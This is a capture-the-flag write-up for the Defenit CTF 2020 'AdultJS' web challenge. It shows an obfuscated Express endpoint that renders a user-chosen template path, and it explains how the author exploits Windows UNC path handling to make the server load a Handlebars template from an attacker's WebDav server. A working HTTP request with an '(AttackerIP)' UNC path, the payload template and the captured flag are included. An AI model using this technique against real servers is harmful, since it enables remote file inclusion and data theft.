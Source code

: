 # AdultJS
*Defenit CTF 2020 - Web 810*<br>
*Writeup by Payload as TryToEatSushi*


## Problem

Are you over 18?
This challenge is for adults :D

Hints <br>
 - Adult-JS is Served by Windows<br>
 - UNC Path

## Analyze Obfuscation

There are tooooooooo many endpoints in source code, we have to summary them first. With our teammate [@rbtree](https://twitter.com/RBTree_Pg_), we removed a garbage endpoints first.

We found that a function is different with other functions in `/61050c6ef9c64583e828ed565ca424b8be3c585d90a77e52a770540eb6d2a020`

```javascript

	app.post("/61050c6ef9c64583e828ed565ca424b8be3c585d90a77e52a770540eb6d2a020", (req, res) => {
	    try {
	        ae97ef205 = req.body.hcda7a4f9;
	        c43c4f0d2 = req.get("d28c3a2a7");
	        dd0372ef0 = req.range("g64aa5062");
	        f71f5ce80 = req.cookies.i77baba57;
	        ic9e2c145 = req.secure["eb4688e6f"];
	
	        fc4ebc0cc = {
	            b13a9706f: Function,
	            f635b63db: 15
	        };
	        ae9a8c19f = {
	            h4f3b2aa1: shared,
	            cf479eeba: this
	        };
	        h4a0a676e = Buffer.alloc(26);
	        h9b2a10f7 = Buffer.allocUnsafe(73);
	        f8c4d94cc = [
	            [
	                [
	                    [{
	                        cbee7d77b: this,
	                        e21888a73: shared
	                    }]
	                ]
	            ]
	        ];
	        dffbae364 = {
	            f13828fc5: Function,
	            cbcc2fbc6: 22
	        };
	        ib4cb72c9 = {
	            hdd2f9aa3: Function,
	            he404c257: 59
	        };
	        hf494292b = 'f7de2a815';
	        dd0372ef0 = dd0372ef0.gbae8c4d4
	        ic9e2c145 = ic9e2c145.d006e28f3
	
	        ae9a8c19f = assert(f71f5ce80);
	
	        res.render(ae97ef205);
	    } catch {
	        res.end('Error');
	    }
	});
```

We can give a template file in var `ae97ef205` which is from `req.body.hcda7a4f9`. Also we have to avoid `assert` directly before `res.render`, we have to set cookie `i77baba57` as non-falsy value.

## UNC, SMB and WebDav

This problem is running on Windows, which support UNC path to make file-related functions to be able to retrieve from remote. UNC uses SMB protocol as default, however when it fails, it tries WebDav over HTTP instead. With this, we can upload a hbs template file include `{{> FLAG }}` to our server, and let server to render it.

## Explotation

1. Configure WebDav server. I used apache2.
2. Upload a template file (flag.html)
3. Render it using the endpoint.

Actually, the flag of BabyJS is a great hint. The only problem is that I realized it after solving.

## Payload


`flag.html`
```
  {{> FLAG }}
```

```

POST /61050c6ef9c64583e828ed565ca424b8be3c585d90a77e52a770540eb6d2a020 HTTP/1.1
Host: adult-js3.ctf.defenit.kr
Cookie: i77baba57=123123
Content-Type: application/json

{"hcda7a4f9": "\\\\(AttackerIP)@80\\webdav\\flag"}


```




**`Defenit{AuduLt_JS-@_lo7e5_@-b4By-JS__##}`**
